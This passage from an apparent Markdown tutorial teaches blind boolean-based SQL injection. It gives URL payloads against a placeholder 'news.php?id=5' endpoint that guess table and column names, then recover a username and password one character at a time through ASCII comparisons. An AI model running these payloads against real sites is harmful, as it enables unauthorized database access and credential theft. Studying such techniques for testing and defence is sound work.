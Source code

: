 ## CHECK TABLE AND COLUMN NAMES
> This is part is where guessing and googling will be your best friend.

Example:
~~~bash
http://server/news.php?id=5 and (select 1 from users limit 0,1)=1
~~~
> In the above example, using “limit 0,1” our query will return “1 row of data”. Then if the page loads normally without content missing, that simply mean the “users” table has been found. If you get FALSE, such as some missing content in the page just change table name until you guess the correct one.

Now let’s say that we have found that table name is “users”, the next step will be to find out the column name using the same exact methodology then before. We will start with a common name such as “password”.

Example:
~~~bash
http://server/news.php?id=5 and (select substring(concat(1,password),1,1) from users limit 0,1)=1
~~~
> If the page is loading properly we now know that the column name is “password”. If we get FALSE, then try another common names. In the above example, we merge “1” with the column “password”, then the substring() function returns the first character.

## EXTRACT DATA FROM DATABASE

Let say that we definitely found the table “users” and the columns “username” and “password”. It’s now the time to use it to extract some relevant informations.
~~~bash
http://server/news.php?id=5 and ascii(substring((SELECT concat (username,0x3a,password) from users limit 0,1),1,1))>80
~~~
With the above query the substring() function will return the first character from the first user in “users” table. The ascii() converts that first character into ascii value and then compare it with the symbol greater then “>” .

Well at this step you already understand that, if the ascii character is greater then 80, the page will load properly. We will need to continue until we get false.
~~~bash
http://server/news.php?id=5 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>95
~~~
Once again we get TRUE we will keep incrementing.
~~~bash
http://server/news.php?id=5 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>98
~~~
We get TRUE again, let’s continue.
~~~bash
http://server/news.php?id=5 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>99
~~~
We got FALSE !!! We are done. We now found that the first character in username is char(99). Using the ascii converter we can easliy understand that char(99) is the letter ‘c’.
